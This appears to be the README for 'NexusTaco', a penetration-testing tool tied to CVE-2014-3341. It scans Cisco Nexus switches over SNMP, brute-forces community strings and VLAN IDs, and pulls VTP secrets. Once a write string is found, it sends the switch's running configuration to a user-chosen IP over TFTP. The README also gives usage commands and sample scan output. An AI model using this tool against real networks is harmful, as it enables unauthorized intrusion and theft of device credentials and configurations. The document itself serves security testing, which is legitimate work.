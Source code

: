 CVE ID: CVE-2014-3341

Cisco Bug ID: CSCup85616

Ref: http://tools.cisco.com/security/center/viewAlert.x?alertId=35338
     

Strings.txt Taken from https://fuzzdb.googlecode.com/svn-history/r127/trunk/wordlists-misc/wordlist-common-snmp-community-strings.txt

NexusTaco is a snmp scanner that can be used both for internal testing and external testing to assess Cisco Nexus switches ( 5000 and 6000 family).

There are many snmp scanners and brute forcers this was made for just completeness.It has the following features:

*Finds Nexus switches specifically since they seem to reply to bogus community strings

*Bruteforces Vlan ID’s which can be used for Vlan hopping / double tagging attacks without a community incase #3 doesn’t come through (useful for internal tests)

*Bruteforces snmp community strings To find the following: **System uptime **Configured networks (leverage more ground)

**Files and folders

**VTP secret and password ( can be cracked since its md5 and might be the telnet login password if exists or used somewhere else)

**Once a write community string is found the running configuration file will be send to your set ip in argv[2]. You need to configure a tftp server like solar winds’s one or something.

TODO:

*Still looking up sneaky OID’s that can provide usernames that are configured locally on the switch

*If found private snmp CS check if a AAA server is running (and get the shared secret wether radius or TACACS+)

*Show logged in users

*Disable snmp traps

*Check for port security if configured incase you need to spoof your mac so you don’t loose your port(internal tests).

*Use getopt …..

*Router reload over snmp just for evilness.

*Anything else I forgot.

$ python NexusTaco.py python NexusTaco.py CIDR

$ python NexusTaco.py x.x.x.x/32 127.0.0.1 100

Thanks nmap for the ip list

Finding vulnerable switches

x.x.x.x:Is a nexus switch, Snmp open, Has Vlans configured

Finding VlanIDs on: x.x.x.x With incorrect community string

Host: x.x.x.x has VlanID 1 Configured

Host: x.x.x.x has VlanID 2 Configured

Host: x.x.x.x has VlanID 3 Configured

Host: x.x.x.x has VlanID 4 Configured

Host: x.x.x.x has VlanID 5 Configured

Host: x.x.x.x has VlanID 6 Configured

Host: x.x.x.x has VlanID 7 Configured

Host: x.x.x.x has VlanID 8 Configured

Host: x.x.x.x has VlanID 10 Configured

Host: x.x.x.x has VlanID 31 Configured

Host: x.x.x.x has VlanID 32 Configured

Host: x.x.x.x has VlanID 33 Configured

Host: x.x.x.x has VlanID 34 Configured

Host: x.x.x.x has VlanID 35 Configured

Host: x.x.x.x has VlanID 40 Configured

Host: x.x.x.x has VlanID 64 Configured

Host: x.x.x.x has VlanID 65 Configured

Host: x.x.x.x has VlanID 97 Configured

Host: x.x.x.x has VlanID 98 Configured

Host: x.x.x.x has VlanID 99 Configured

Host: x.x.x.x has VlanID 100 Configured

.....
